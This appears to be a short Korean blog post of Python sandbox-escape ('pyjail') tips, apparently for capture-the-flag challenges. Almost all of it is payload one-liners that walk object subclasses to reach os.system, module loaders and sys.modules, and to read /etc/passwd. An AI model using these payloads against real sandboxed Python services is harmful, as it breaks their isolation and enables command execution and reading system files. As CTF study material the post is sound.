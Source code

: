 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<br>

<h2>python2</h2>

<br>

__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```

<br>


<h3>python3</h3>

<br>

__run import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#<module 'os' (built-in)>
#<class '_frozen_importlib.BuiltinImporter'>
```

<br>

__run " os "__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#<built-in function system>
#<class 'os._wrap_close'>
```

<br>

__run  from sys import modules __

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#<module 'os' (built-in)>
#<built-in function system>
```

<br>

__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#<class '_frozen_importlib_external.FileLoader'>
```

<br>